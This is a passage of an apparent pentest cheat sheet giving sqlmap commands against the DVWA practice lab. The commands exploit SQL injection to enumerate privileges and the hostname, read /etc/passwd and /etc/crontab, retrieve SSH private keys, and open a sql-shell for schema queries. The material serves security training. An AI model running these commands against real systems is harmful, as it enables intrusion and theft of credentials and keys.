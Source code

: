 Note: This requires **SELECT** and **FILE** privilege in order to read files externally. Enumerate the user DB account for privileges before proceeding these steps.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --privileges -U CU
```

- Enumerate hostname

```
$ sqlmap "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --hostname
```
#### 2.1.2 - Linux

- Enumerating user accounts

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --file-read="/etc/passwd"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

- Enumerate cron job

```
sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --file-read="/etc/crontab"
```

- Retrieve SSH keys

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --file-read="/home/<username>/.ssh/id_rsa"
```

#### 2.1.2 - Windows

TODO: Provide examples for windows OS enumeration using such as, `--reg-read` and `--file-read`

### 2.2 - Database Enumeration

#### 2.2.1 - Manual Enumeration

- Interactive `--sql-shell` prompt to perform SQL statement queries manually.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --sql-shell

sql-shell> SELECT @@VERSION()

sql-shell> SELECT table_name FROM information_schema.tables

sql-shell> SELECT column_name FROM information_schema.columns

sql-shell> SELECT USER()

sql-shell> SELECT DATABASE()

sql-shell> SELECT GRANTEE, IS_GRANTABLE, PRIVILEGE_TYPE, TABLE_CATALOG FROM information_schema.USER_PRIVILEGES
```
